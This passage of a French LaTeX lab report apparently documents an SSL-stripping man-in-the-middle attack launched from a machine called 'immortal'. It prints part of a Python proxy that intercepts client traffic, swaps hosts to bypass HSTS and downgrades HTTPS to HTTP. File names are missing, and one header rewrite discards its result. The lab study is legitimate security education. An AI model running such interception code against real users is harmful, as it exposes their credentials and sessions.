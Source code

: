 \subsubsection{Étape 2 : lancement de l'attaque}

Comme expliqué précédemment, pour lancer l'attaque, il faut exécuter le fichier  depuis immortal dont on a déjà expliqué son comportement.

Nous pouvons maintenant lancer l'attaque depuis la machine immortal :


\begin{figure}[H]
  \caption{Lancement de l'attaque}
\end{figure}

\paragraph{Explication du code \\}

Le code du proxy est dans le dossier de la machine immortal, le fichier .

\subparagraph{Réception des requêtes \\}

Lors de la réception de requêtes, il s'agit de savoir si l'on doit :

\begin{itemize}
\item fermer la connexion (le client ou le serveur a fermé la connexion)
\item établir une connexion en HTTPS, dans le cas où le client va sur le domaine 
  \item établir une connexion HTTP, dans le cas où le client demande la page du domaine 
\end{itemize}

La fonction traitant les différentes requêtes est celle-ci :

\begin{verbatim}
def __recv(self, csock):
        fw_sock = self.__csockets[csock]
        data = csock.recv(BUFFER_SIZE)
        if len(data) == 0:
            self.__close_conn(csock)
            self.__close_conn(fw_sock)
        else:
            print(data)

            if fw_sock is None:
                m = re.search(b'Host: (\S+)', data)
                if m is not None and m.group(1) == FAKE_HOST:
                    re.sub(b'Host: (\S+)',
                           b'Host: ' + bytes(FORWARD_HOST_HSTS), data)
                    self.__new_https_conn(csock)
                else:
                    self.__new_http_conn(csock)
                fw_sock = self.__csockets[csock]
            data = self.__replace_https_to_http(data)
            data = self.__replace_host(data)
            data = self.__replace_content_length(data)
            fw_sock.send(data)
\end{verbatim}

